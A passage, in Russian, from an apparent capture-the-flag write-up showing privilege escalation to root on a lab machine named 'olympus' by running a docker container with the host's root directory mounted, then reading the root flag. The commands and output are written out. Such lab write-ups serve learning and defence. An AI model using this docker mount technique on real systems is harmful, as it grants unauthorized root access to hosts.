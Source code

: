 ## PrivEsc: prometheus → root. Способ 1
Первый способ получения рут-сессии очень простой (по крайней мере, если ты прежде сталкивался с docker'ом).

Посмотрим доступные образы (ради интереса):
```text
prometheus@olympus:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
crete               latest              31be8149528e        5 months ago        450MB
olympia             latest              2b8904180780        5 months ago        209MB
rodhes              latest              82fbfd61b8c1        5 months ago        215MB
```

Выведем список контейнеров:
```text
prometheus@olympus:~$ docker container ls
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                                    NAMES
f00ba96171c5        crete               "docker-php-entrypoi…"   5 months ago        Up 16 minutes       0.0.0.0:80->80/tcp                       crete
ce2ecb56a96e        rodhes              "/etc/bind/entrypoin…"   5 months ago        Up 16 minutes       0.0.0.0:53->53/tcp, 0.0.0.0:53->53/udp   rhodes
620b296204a3        olympia             "/usr/sbin/sshd -D"      5 months ago        Up 16 minutes       0.0.0.0:2222->22/tcp                     olympia
```

Вклинимся в файловую систему скажем контейнера `olympia`, примонтировав root-директорию хоста, призовем шелл и прочитаем root-флаг:
```text
prometheus@olympus:~$ docker run --rm -i -t -v /:/hostOS olympia /bin/bash
root@89763840b853:/# whoami
root

root@89763840b853:/# id
uid=0(root) gid=0(root) groups=0(root)
```

### root.txt
```text
root@89763840b853:/# cat /hostOS/root/root.txt
aba48699????????????????????????
```

Для тех, кто не понял, что произошло, рекомендую крутую статью из 2-х частей про базовые принципы безопасности docker'а: [раз](https://blog.mi.hdm-stuttgart.de/index.php/2016/08/06/exploring-docker-security-part-1-the-whales-anatomy "Exploring Docker Security – Part 1: The whale's anatomy / Computer Science Blog"), [два](https://blog.mi.hdm-stuttgart.de/index.php/2016/08/16/exploring-docker-security-part-2-container-flaws "Exploring Docker Security – Part 2: Container flaws / Computer Science Blog").

## PrivEsc: prometheus → root. Способ 2
Но это и правда было действительно слишком просто, а значит мы неудовлетворены :unamused:
